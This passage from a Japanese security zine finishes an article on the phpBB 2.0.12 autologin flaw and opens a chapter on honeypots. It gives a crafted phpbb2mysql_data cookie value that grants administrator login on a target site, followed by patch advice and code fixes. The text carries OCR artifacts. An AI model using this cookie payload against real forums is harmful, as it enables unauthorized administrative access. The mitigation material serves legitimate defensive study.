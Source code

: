```
3：「a%\~\~」部分を次のように置き換えます。編集後、上書き保存します。

```
phpbb2mysql_data a%3A2%3A%7Bs%3A11%3A%22autologinid
%22%3Bb%3A1%3Bs%3A6%3A%22userid%22%3Bs%3A1%3A%222%22%3B%7D
```

4：後はこの状態でターゲットサイトのphpbbのWebページにアクセスすれば、管理
者権限のままログインできているはずです。


### 0x04 防止する方法

　phpbbをすぐに2.0.12から2.0.13はアップデートすればこの脆弱性を防止するこ
とができます。
　また、アップデートが面倒なら、2.0.12のsessions.phpとviewtopic.phpを次の
ように編集すれば防止することができます。詳細はphpbb.comにも載っています。

- includes/sessions.php

```
if( $sessiondata['autologinid'] \=\= $auto_login_key )
```

```
if( $sessiondata['autologinid'] \=\=\= $auto_login_key )
```

- viewtopic.php 

```
$message \= str_replace('\"', '"', substr(preg_replace('\#(\>(((?>([^><]+|(?R)))*)\<))\#se',
 "preg_replace('\#\b(" . $highlight_match . ")\b\#i',
 '<span style\=\"color:\#" . $theme['fontcolor3'] . "\"><b>\\\\1</b></span>',
 '\\0')", '>' . $message . '<'), 1, -1));
```

```
$message \= str_replace('\"', '"', substr(@preg_replace('\#(\>(((?>([^><]+|(?R)))*)\<))\#se',
 "@preg_replace('\#\b(" . $highlight_match . ")\b\#i',
 '<span style\=\"color:\#" . $theme['fontcolor3'] . "\"><b>\\\\1</b></span>',
 '\\0')", '>' . $message . '<'), 1, -1));
```


### あとがき
　今回が初投書となります。大変ショートなものとなりましたが、phpbbの脆弱性
を表から触り　2.0.12の脆弱性を紹介してみました。機会があればphpbbの脆弱性
をさらに追求していきたいと思っています。

　文章が下手なものでみなさんが見ているものは編集者の方々が一生懸命編集し
てくださってきれいな文章になっていると思います（笑）。



***

## 第3章: ハニーポットを作ろう　〜 第2回 〜

著者：Narusase

***


### 0x01 はじめに
```